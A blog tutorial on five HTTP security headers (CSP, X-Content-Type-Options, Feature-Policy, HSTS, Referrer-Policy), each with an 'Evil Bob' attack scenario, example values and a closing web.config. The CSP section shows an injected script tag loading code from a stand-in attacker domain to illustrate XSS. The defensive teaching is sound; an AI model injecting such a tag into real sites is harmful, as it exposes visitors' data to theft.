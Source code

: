 # Top-5 HTTP Security Headers

![Top-5 HTTP Security Headers KDPV](~/img/kdpv/security-headers.jpg)

Nowadays, security is important as never before. I've prepared a very small article about the Top-5 security headers in 2020 that will help your site keep your users in safety. Have a nice reading!

## Content-Security-Policy

One of the most important security header. It was created to prevent the usage of any resource from an untrusted source.

Let's go to the short example first:

Evil Bob found [XSS](https://en.wikipedia.org/wiki/Cross-site_scripting) vulnerability on Alice's site. He decides to inject the script into the web-page to steal some customer data. He put this script tag into her page

```html
<script src="https://my-evilt-site.org/very-evil-script.js"></script>
```

and waits for the results

Luckily, Alice knows about CSP header and already added it to the response : ```Content-Security-Policy: default-src 'self'```. Now, a browser already knows, that scripts (and images, and fonts, and styles) not from origin domains are forbidden to use and Bob's attack fails.

Within this header you can deny inline scripts and eval usage (goodbye inline XSS), specify a checksum for the scripts (goodbye substitution of the 3rd party scripts), allow specific domains for your images, fonts, and styles. It can restrict fetch requests, deny usage of your site inside an iframe (goodbye [CSRF](https://en.wikipedia.org/wiki/Cross-site_request_forgery)) and much more. CSP header is very flexible and can support almost all of your needs.

### Can I use Content-Security-Policy?

CSP header [supported](https://caniuse.com/#feat=mdn-http_headers_csp_content-security-policy) by almost all browsers including IE (but with a special name - X-Content-Security-Policy). Some of the directives may not be supported across different browsers but this will not ruin the header.

### Code Example

* Allow all remote resources from your domain: ```Content-Security-Policy: default-src 'self'```. No external API calls allowed!
* Allow all remote resource from your domain and external api calls: ```Content-Security-Policy: default-src 'self'; connect-src 'self' https://my-example-api.ua```. IFraming is allowed.
* Allow all remote resource from your domain, external api calls, disallow iframing your site: ```Content-Security-Policy: default-src 'self'; connect-src 'self' https://my-example-api.ua; frame-ancestors 'none';``` Not so strict as I wish.
* Disallow everything except whitelisted: ```Content-Security-Policy: default-src 'none'; img-src 'self'; font-src 'self'; connect-src 'self' https://my-example-api.ua; script-src 'self'; style-src 'self'; frame-ancestors 'none'``` Much better now but without [critical css](https://developer.mozilla.org/en-US/docs/Web/Performance/Critical_rendering_path)
* Disallow everything except whitelisted (with inline css): ```Content-Security-Policy: default-src 'none'; img-src 'self'; font-src 'self'; connect-src 'self' https://my-example-api.ua; script-src 'self'; style-src 'self' 'unsafe-inline'; frame-ancestors 'none'```

Examples are simplified just to give you a better understanding of the CSP header power. For additional info check the [mdn page](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy) and the [CSP Cheat Sheet](https://scotthelme.co.uk/csp-cheat-sheet/) is also very useful.

**Important Notice**: If you need to deny the possibility to iframe your site in IE - you should use [X-Frame-Options](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options)


## X-Content-Type-Options

This is a bit tricky header but it works very well with CSP, so it worth mentioning.

Imagine, that Evil Bob found XSS on Alice's site and tries to put some malicious script inside. But Alice already has setup CSP policy, so his attempt to download javascript from untrusted resources fails. But Evil Bob is smart. He changes the type of the injected script to "text/plain". Now, CSP protection will allow loading script, because it is not javascript anymore and should not be executed. But sometimes, browsers try to be too smart. They may check the content of the loading "text", and decide to execute it as JavaScript. This named sniffing and this behavior varies depending on the browser.

This header tells the browser,  strictly follow provided Mime/Type, and don't try to guess.

### Can I use X-Content-Type-Options?

[Supported](https://caniuse.com/#feat=mdn-http_headers_x-content-type-options) by all browsers except Safari.

### Code Example

Only one option is possible: ```X-Content-Type-Options: nosniff```

## Feature-Policy

This header is designed to turn off features that you don't expect to be used.

Alice has a nice and shiny site with a big audience. Evil Bob found XSS and decided to use Alice's site for spying using a user's web camera. So he injects malicious code and waits for the dozen of the new videos.

But, fortunately, Alice already set Feature-Policy header to ```Feature-Policy: camera 'none'```

Now, browsers know, that using a camera is not permitted for anyone, and Bob's attempt fails. Of course, you can turn off not only a camera but also autoplay (useful when you are showing some ads from 3rd party vendors), microphone and very much more. If you don't want to turn it off for all, you can allow to use it only for code from your domain.


### Can I use Feature-Policy?

Partially [supported](https://caniuse.com/#feat=feature-policy) by most of the browsers and not supported by the IE.

### Code Example

Disabling geolocation:  ```Feature-Policy: geolocation 'none'```
Disabling sensetive features:  ```Feature-Policy: camera 'none'; microphone 'none'; geolocation 'none'; autoplay 'none'; display-capture 'none'; payment 'none'```

## Strict-Transport-Security

This is a very simple header for those who use HTTPS. It tells the browser to use only HTTPS connection, even if the user is trying to use HTTP.

Let's imaging that Alice is sitting in a public place and use public WiFi. Evil Bob is sitting not very far from her and trying to sniff all non-encrypted traffic. Alice decides to visit some online-shop and uses an old and good link like www://my-example-shop.com. Evil Bob sees her request (it's not encrypted) and starts recording Alice's activity hoping to get credit card information. But, after the first request, the shop returns STS header: ```Strict-Transport-Security: max-age=31536000```. And browsers automatically redirects Alice to the HTTPS version of the page. From now, Evil Bob sees only encrypted traffic and can't steal anything.

## Can I use Strict-Transport-Security?

[Supported](https://caniuse.com/#feat=stricttransportsecurity) by all browsers except Opera Mini. And Yes, IE also supports this header.

### Code Example

```Strict-Transport-Security: max-age=31536000; includeSubDomains```

## Referrer-Policy

Controls how much of the referer information (host, query params, etc) are sent within the request.

Short example:

Alice has a forum about cats with lots of links to other resources. When a user clicks on the link, he is navigated to another web page, and this web page can gather some information about the source of the navigation. You value the privacy of your users and want to keep this information secret. You set Referer-Policy header and deny browser to send referer information for all except your self.

### Can I use Referrer-Policy?

Mostly [Supported](https://caniuse.com/#feat=referrer-policy) with all (IE - partially) browsers except Opera Mini

### Code Example

Showing referer info only for the origin: ```Referrer-Policy: same-origin```

## Summary:

As far as I use .NET, here is the result setup for web.config: (note, unsafe js inline is not supported):

```xml
<customHeaders>
    <add name="Content-Security-Policy" value="default-src 'none'; img-src 'self'; font-src 'self'; connect-src 'self' https://my-example-api.ua; script-src 'self'; style-src 'self' 'unsafe-inline'; frame-ancestors 'none'" />
    <add name="Feature-Policy" value="camera 'none'; microphone 'none'; geolocation 'none'; autoplay 'none'; display-capture 'none'; payment 'none'" />
    <add name="X-Content-Type-Options" value="nosniff"/>
    <add name="Referrer-Policy" value="same-origin"/>
    <add name="Strict-Transport-Security" value="max-age=31536000"/>
</customHeaders>
```

## Useful links:

* [Content-Security-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy)
* [CSP Cheat Sheet](https://scotthelme.co.uk/csp-cheat-sheet/)
* [Feature-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Feature_Policy)
* [Using Feature-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Feature_Policy/Using_Feature_Policy)
* [X-Content-Type-Options](https://developer.mozilla.org/en-US/docs/Web/HTTP/headers/X-Content-Type-Options)
* [Referrer-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referrer-Policy)
* [Strict-Transport-Security](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Strict-Transport-Security)


Bonus: web.config with all set headers can be found [here](https://github.com/Drag13/articles/blob/master/headers/web.config)

**Stay safe and don't forget to remove x-powered header! :)**

[Thanks to John Salvino for the photo]
